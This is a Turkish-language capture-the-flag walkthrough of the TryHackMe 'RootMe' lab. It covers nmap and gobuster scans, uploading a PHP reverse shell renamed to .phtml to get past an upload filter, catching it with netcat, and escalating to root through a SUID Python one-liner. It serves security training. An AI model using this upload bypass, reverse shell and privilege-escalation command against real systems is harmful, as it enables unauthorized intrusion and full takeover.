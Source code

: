 # RootMe CTF Write up
---
Selam Dostlar RootMe ctf çözümüyle karsınızdayım.

`nmap -sC -sV <İP> -Pn`

```sh
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-02 03:14 EDT
Nmap scan report for 10.10.214.100
Host is up (0.62s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

##### 80 portunun (http) acik oldugunu goruyoruz hemen siteye gidiyoruz:
---------





/index.php de (ana safada) isimize yarayacak birsey yok bizde gobuster/dirb 
ile dizin taraması yapıyoruz.


`gobuster dir -u http://10.10.214.100 -w /usr/share/dirb/wordlists/common.txt`

```sh
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```



##### Bize Verilen çıktıyı inceliyoruz:
--------
Status:403 olarak belirtilen dizinler erisim yetkimizin `olmadığı` dizinler
Status:301 olarak belirttiği dizinler erisim yetkimizin `oldugu` dizinler

##### Erisim yetkimizin olduğu dizinleri inceliyoruz:
------
`/css dizininde home dizini ve /panel dizinin css kodları var.`
`/js dizininde bir js kodu var.`
`/panel dizininde bizi dosya yükleyebileceğimiz bir sayfa karşılıyor.`
`/uploads dizini yüklenen dosyaların bulunduğu dizin`

##### Php reverse shell indirmek ve düzenlemek:
----
`~Reverse Shelli [buradan](https://github.com/pentestmonkey/php-reverse-shell) indirebilirsiniz.`
`Php reverse shelli açıp tun0 ipimizi ve dinleycek portumuzu yazıyoruz.`

##### php reverse shelli /panel adresine yüklemek:
--------
`Php reverse shell yüklemeye çalışıyoruz ama hata veriyor.`
`Buradan php dosyalarını yüklemeyi kabul etmediğini görüyoruz.`
`Bunu bypass etmek için uzatısını phtml olarak degistirip yüklüyoruz.`

##### Shelli almaya calışıyoruz:
-----
`/uploads dizinine yuklenen dosyaların gittigini biliyorduk.`
`Bizde yukledigimiz dosyanın buraya geldiğini görüyoruz.`
`nc -lvnp (shelle yazdığımız port) yazarak portumuzu dinlemeye alıyoruz.`
`/uploads dizinine yüklediğimiz shellin üzerine tıklıyoruz`
`Ve Bağlantı Geliyor`

##### User flagı buluyoruz:
------
`Hemen bulunduğumuz dizine ls çekiyoruz ve user flagı okuyoruz:```

```
$ cat user.txt
THM{xxxxxxxxxxxxxxx}
```

##### Yetki Yükseltmek:
---
```
find / -user root -perm /4000 2>/dev/null
```
`komutu ile root olarak kullanbileceğimiz progrmaları listeliyoruz.`
`/usr/bin/python ı görüyoruz ve bunla yetki yükseltmeye çalışıyoruz.`

[GTFOBins](https://gtfobins.github.io/) adresinde pythonu aratıyor ve python yetki yükseltme komutunu buluyoruz:
```
-c 'import os; os.setuid(0); os.system("/bin/sh")'
```
`pythonun bulunduğu dizini belirterek (/usr/bin/python) pythonu çalıştırıyor ve yetki yükseltme komutumuzu yazıyoruz.`

```
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

id yazarak root olduğumuzu görüyoruz:
```
uid=0(root) gid=33(www-data) groups=33(www-data)
```

`/root dizini altında bulunan root.txt dosyasını okuyoruz`

```
# cat /root/root.txt
THM{xxxxxxxxxxxxxxxxxxxx}
```







